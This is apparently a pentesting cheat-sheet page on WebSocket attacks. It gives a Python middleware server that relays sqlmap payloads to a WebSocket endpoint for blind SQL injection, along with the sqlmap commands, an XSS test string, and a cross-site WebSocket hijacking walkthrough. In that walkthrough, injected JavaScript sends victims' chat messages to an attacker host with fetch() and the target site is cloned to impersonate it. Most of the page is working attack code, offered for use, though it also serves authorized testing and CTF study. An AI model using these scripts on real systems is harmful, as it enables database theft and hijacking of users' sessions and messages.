 ```yaml
---
title: WebSocket Pentesting
description: WebSocket is a protocol that provides full-duplex communication channels over a single single TCP connection.
tags:
    - SQL Injection
    - Web
refs:
    - https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking
    - https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html
date: 2023-03-08
draft: false
---
```


## Connect with CLI

[websocat](https://github.com/vi/websocat) is a command-line client for WebSockets, like netcat for 

```bash
websocat ws://<ip>/
```

<br />

## Connect with Python Script

```python
import websocket,json

ws = websocket.WebSocket()
ws.connect("ws://10.0.0.1/")
d = {"message": "hello"}
data = str(json.dumps(d))
ws.send(data)
result = ws.recv()
print(json.loads(result))
```

As above, we can manipulate the data to send. For example,

```python
{"message": "<script>alert(1)</script>"}
```

If the website reflects the result of the above interactions, we can affect the website.

<br />

## Blind SQL Injection

First, create a Python script to establish a middleware server to forward **`sqlmap`** payloads to the target WebSocket server.   
The script name is **“server.py”** here. Also we need to install [websocket-client](https://pypi.org/project/websocket-client/) Python package.

```py
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://<target-ip-for-websocket>/"

def send_ws(payload):
    ws = create_connection(ws_server)

    message = unquote(payload).replace('"', '\'')
    data = '{"id":"%s"}' % message

    ws.send(data)
    resp = ws.recv()
    ws.close()

    if resp:
        return resp
    else:
        return ''

def middleware_server(host_port, content_type="text/plain"):

    class CustomHandler(SimpleHTTPRequestHandler):
        def do_GET(self) -> None:
            self.send_response(200)
            try:
                payload = urlparse(self.path).query.split('=',1)[1]
            except IndexError:
                payload = False

            if payload:
                content = send_ws(payload)
            else:
                content = 'No parameters specified!'

            self.send_header("Content-Type", content_type)
            self.end_headers()
            self.wfile.write(content.encode())
            return

    class _TCPServer(TCPServer):
        allow_reuse_address = True

    httpd = _TCPServer(host_port, CustomHandler)
    httpd.serve_forever()

print("[+] Starting Middleware Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
    middleware_server(('0.0.0.0', 8081))
except KeyboardInterrupt:
    pass
```

Then start middleware server by running the above script.

```sh
python3 server.py
```

Finally execute sqlmap.

```sh
sqlmap -u "http://localhost:8081/?id=*" --batch --dbs
sqlmap -u "http://localhost:8081/?id=*" --batch --dbs --risk 3 --level 5
```

For details, see [this awesome post](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html).

<br />

## Cross-Site WebSocket Hijacking

1. Send messages in the target web page like chat room using WebSocket.

2. Check the WebSocket handshake connection in the request as below. It contains the **“Connection: Upgrade”**, **“Upgrade: websocket”**, **“Sec-WebSocket-Key”**, etc. in the request header.
    
    ```txt
    GET /chat HTTP/1.1
    Host: vulnerable.com
    Connection: Upgrade
    Upgrade: websocket
    Sec-WebSocket-Version: 13
    Cookie: session=wUTqcDb41l4jbfPUt0XKl36FNh36aSrBl
    Sec-WebSocket-Key: NZxnyRVz0Z9yGnOyqAWl4Q==
    ```
    
3. If there is no  CSRF token in the request, we can CSRF on WebSocket.

4. In our WebSocket server, create the script.
    
    ```html
    <script>
    var ws = new WebSocket('wss://<target-url>/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://<local-ip>', {method: 'POST', mode: 'no-cors', body: event.data});
    };
    </script>
    ```
    
5. In our attack website, copy files of the target and paste to our web directory to impersonate the target website.
    
    Start web server using Python.
    
    ```html
    sudo python3 -m http.server 80
    ```